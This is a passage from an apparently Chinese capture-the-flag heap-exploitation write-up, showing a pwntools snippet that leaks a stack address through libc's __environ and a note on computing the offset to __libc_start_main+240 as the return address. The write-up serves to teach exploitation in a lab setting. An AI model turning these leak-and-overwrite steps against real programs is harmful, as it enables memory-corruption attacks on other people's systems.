 [![](assets/1701612371-dd6a9257bd9aa88fb3ee067d131abbf4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701152047-ccd867e8-17df-1.png)  
这里的chunk\_ptr 前面的应该是size，直接写一个数就行，这里没有过多的检查，我试了试两个p64(0x100)也能打通

```plain
p.readuntil("# CONTENT: ")
stack_env=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
leak('environ',libc_base + libc.symbols["__environ"])
success("env_stack address: " + hex(stack_env))
```

这里写入 '\_\_environ' 函数然后根据题目特点把 栈地址泄露出来了

[![](assets/1701612371-0e325026f69671d030cd41e876ae171c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701152106-d7e0f61e-17df-1.png)  
计算一下偏移，得到 '\_\_libc\_start\_main+240' 的地址，也就是程序的返回地址
